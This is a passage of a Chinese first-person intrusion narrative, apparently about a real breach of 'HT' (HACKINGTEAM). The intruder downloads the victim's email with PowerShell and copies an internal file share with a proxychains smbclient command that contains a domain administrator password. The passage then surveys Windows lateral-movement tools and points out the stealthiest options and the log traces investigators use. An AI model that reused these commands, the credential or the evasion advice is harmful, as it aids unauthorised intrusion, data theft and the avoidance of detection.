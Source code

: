 0x09 下载邮件
=====

现在我有了域管理员密码，就可以进入到业务核心——邮件中了。之后做的每一步操作都有可能随身被发现，以防万一，先下载邮件，这里powershell起了很大的作用。我发现了处理日期的一个bug。在得到邮件后，我又花了两周时间去获得源码和其他东西，之后又把新的邮件下载了下来。服务器是意大利的，时间的格式是：日/月/年，我用：

```
-ContentFilter {(Received -ge '05/06/2015') -or (Sent -ge '05/06/2015')}

```

这个语法去搜索邮件服务器并且下载新的邮件，问题是获得了”日期错误：day不能大于12“的结果，因为欧洲时间中月份通常在第一位，月份不能大于12,。看来微软的工程师们只在他们自己的时区测试了他们的软件。

0x0a 下载档案
=====

现在我已经是域管理了，我开始通过smb客户端和代理去下载各种资源：

```
proxychains smbclient '//192.168.1.230/FAE DiskStation' \ -U 'HACKINGTEAM/Administrator%uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'

```

至此，所有的东西都被下载下来了。

0x0b windows域渗透简介
=====

在与HT的故事结束之前，我想对windows内网渗透做一些简介。

#### 1 横向移动(这种名词国内好像还没有对应的术语)

在这里，我跟大家对各种内网渗透的技术做一些回顾。远程执行的方式是需要密码或者本地管理员的hash的。目前为止，最常见的方法是在机器上以管理员权限用mimikatz本地抓取管理员密码。而比较好的提升权限工具主要是PowerUp和bypassuac。 远程移动：

1)psexec

> windows上这方面很有效的工具。你可以使用psexec，winexe，metasploit的psexec_psh，powershell 的invoke_psexec或者windows内建函数"sc"。对于metasploit的模块和powershell、pth-winexe，你只需要hash即可，无需密码。这是最通用的方法，但是也是最不隐蔽的方法。时间类型7045“service control manage”会显示在时间日志中。根据我的经验，没有人会在渗透的时候注意到这个细节，但是这个细节却对事件调查者有一定的帮助。

2)WMI

> 这是最隐蔽的方法。WMI服务在除了服务器的所有windows机器上都是开着的，服务器上的防火墙默认不会允许该服务通过。你可以使用wmiexec.py，pth-wmis，powershell 的 invoke_wmi，或者windows上的内建wmic函数。所有的wmic只需要hash。

3)PSRemoting

> 该功能默认是关闭的，我也不推荐将其开启。但是如果系统管理员已经将其开启了，就非常方便了，特别是如果你用ps干所有的事都很容易，而且不会留下太多足迹。

4)GPO

> 如果以上所有的方法都被防火墙过滤了，而且你又是域管理，你就可以通过GPO给用户一个登录脚本，安装一个msi，执行一个定时任务或者就像我们看到的 Mauro Romeo 那样利用GPO开启了WMI服务并且关闭了该服务的防火墙过滤。

本地移动：

1) 盗取token
